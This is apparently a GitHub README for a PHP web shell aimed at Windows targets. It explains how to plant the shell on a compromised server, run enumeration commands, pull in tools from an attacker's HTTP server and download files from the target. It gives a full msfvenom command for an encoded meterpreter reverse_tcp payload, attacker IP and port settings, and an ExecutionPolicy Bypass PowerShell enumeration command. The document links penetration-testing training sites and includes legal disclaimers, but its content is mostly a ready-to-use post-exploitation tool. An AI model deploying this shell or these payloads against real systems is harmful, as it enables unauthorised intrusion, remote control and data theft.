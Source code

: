 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<h2>Foreword:</h2>
<blockquote>Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:
		<ul>
			<li>https://www.hackthebox.eu/</li>
			<li>https://tryhackme.com/</li>
	    </ul>
		  </blockquote>
<p>Automates or simplifies many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:<br> 
venom.exe : <code>sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe</code>
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>simple user manipulations (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.</p>

<p>Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.</p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png" />
<p>The upload and download options are self explanatory, but just to avoid any confusion: <br><br>
If using the select field, choose your file and click "upload". files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup> <br>
If using the open file dialog option, only files present at the ip address and port specified can be uploaded. <br>
For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.<br>   
Example usage: run jaws-enum.ps1 - output to jaws.txt <code>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt</code>, then download the output file to your attack machine for later close examination.<br><br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png" />
</p>
<p>The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png" /><br>

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.</p> 

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error? 
 Two possible causes:</p>
 <ol>
 <li> You didn't set the variables, <code>$attackip</code> and <code>$attackport</code> to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.</li> 
 <li> The files are not available on the defined server or port, or there is no server running on the defined port. Fix: <code>python3 -m http.server XXXX</code> in a directory containing the files you're attempting to upload.</li>
 </ol>
<h3>Footnotes:</h3> 
<p><sub>1</sub> I generally cd into my "windowstools" folder and start a simple http server:<br>
<code>cd windowstools</code><br>
<code>python3 -m http.server 8000</code>.<br>
<br>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png" /></p>
